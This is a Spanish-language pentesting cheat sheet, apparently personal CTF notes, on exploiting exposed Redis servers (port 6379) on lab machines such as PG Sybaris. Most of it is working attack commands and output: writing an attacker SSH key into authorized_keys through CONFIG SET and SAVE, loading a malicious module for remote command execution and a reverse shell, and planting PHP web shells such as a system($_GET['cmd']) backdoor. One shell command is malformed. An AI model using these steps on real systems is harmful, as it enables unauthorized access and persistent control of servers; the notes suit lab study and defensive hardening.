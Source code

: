 
## DESCRIPTION

ENUMERACION: LA CONTRASEÑA SUELE ESTAR /etc/redis/redis.conf

Si tenemos acceso a LFI podemos buscarla

Interesante para ver donde podemos escribir: /etc/apache2/sites-enabled/000-default.conf

POR DEFECTO EN /opt/redis-file


#### Mas información
* https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis
*  https://0xdf.gitlab.io/2020/03/14/htb-postman.html https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis


## EXPLOITATION

Para conectar:

```
nc -vn 10.10.10.10 6379
# o
redis-cli -h 10.10.10.10 # sudo apt-get install redis-tools
```

### OPTION 1: WRITE SSH KEY

NECESTAMOS LOGIN (puede ser sin usuario si la app quiere)

VERSIÓN: 6379/tcp  open  redis   Redis key-value store 4.0.9

EXISTEN OTROS EXPLOITS: https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis


EXPLICACIÓN: Dado que puedo escribir en redis, básicamente tengo escritura casi arbitraria en el sistema de archivos como el usuario redis se está ejecutando como escribiendo la base de datos a un archivo con el comando save. La razón por la que es "casi arbitraria" es porque no puedo escribir limpiamente un archivo, sino que puedo escribir mi contenido con basura a ambos lados. Pero hay muchos ataques basados en archivos en Linux que son robustos a la basura extra. Por ejemplo, escribir una clave SSH. sshd ignorará las líneas basura, y procesará las líneas que tengan una clave pública en el archivo authorized_keys.

![[Pasted image 20230607132642.png]]


PASO A PASO
1. Nos conectamos al redis: redis-cli -h 10.10.10.160
2. EN OTRA TERMINAL: generamos las claves → ssh-keygen -t rsa → le ponemos un nombre y la podemos dejar sin contraseñas

![[Pasted image 20230607132648.png]]
3. En la terminal anterior, tras la generación de claves ejecutamos → 
4
```
echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt 
```

5. En la primera terminal (del redis) ejcutamos:

```
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
```


![[Pasted image 20230607132703.png]]

5. Nos conectamos por ssh con la clave privada →
 ```
 ssh -i id_rsa redis@10.10.10.160
```


### OPTION 1: LOAD REDIS MODULE
Using https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#load-redis-module

```
# clone repo, make

# need to upload the module.so

# we can use ftp to upload

Uploaded module.so on ftp pub/

Default path is /var/ftp

Using redis-cli

192.168.224.93:6379> module load /var/ftp/pub/module.so

192.168.224.93:6379> modue list

(error) ERR unknown command `modue`, with args beginning with: `list`,

192.168.224.93:6379> module list

1) 1) "name"

2) "system"

3) "ver"

4) (integer) 1

192.168.224.93:6379> system.exec "whoami;id;hostname;uname -a"

"pablo\nuid=1000(pablo) gid=1000(pablo) groups=1000(pablo)\nsybaris\nLinux sybaris 3.10.0-1127.19.1.el7.x86_64 #1 SMP Tue Aug 25 17:23:54 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux\n"

192.168.224.93:6379>

192.168.224.93:6379> system.exec "mkdir /home/pablo/.ssh"

192.168.224.93:6379> system.exec 'echo "ssh-rsa <<id_rsa.pub>> > /home/pablo/.ssh/authorized_keys'

[OR]

192.168.224.93:6379> system.rev IP PORT
```


### OPTION 3: WRITE WEB SHELL

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```


Si da error puede ser por que no tenemos permisos, si tenemos un LFI previamente conseguido entonces podemos ver en que directorios poemos escribir de redis y subir ahí la web shell para luego acceder con el LFI.

Por defecto en /opt/redis-file

```
192.168.220.166:6379> auth 'Ready4Redis?'
OK
192.168.220.166:6379> config set dir /opt/redis-files
OK
192.168.220.166:6379> config set dbfilename test.php
OK
192.168.220.166:6379> set test "<?php system($_GET['cmd']); ?>"
OK
192.168.220.166:6379> save
OK
192.168.220.166:6379> 

```

![[Pasted image 20230706144208.png]]
Ejemplo con wordpress LFI wordpress site editor 1.1.1

![[Pasted image 20230706144146.png]]


## MACHINES

* Hack The Box: 
* PG: Sybaris

**!!NOTA IMPORTANTE!!** 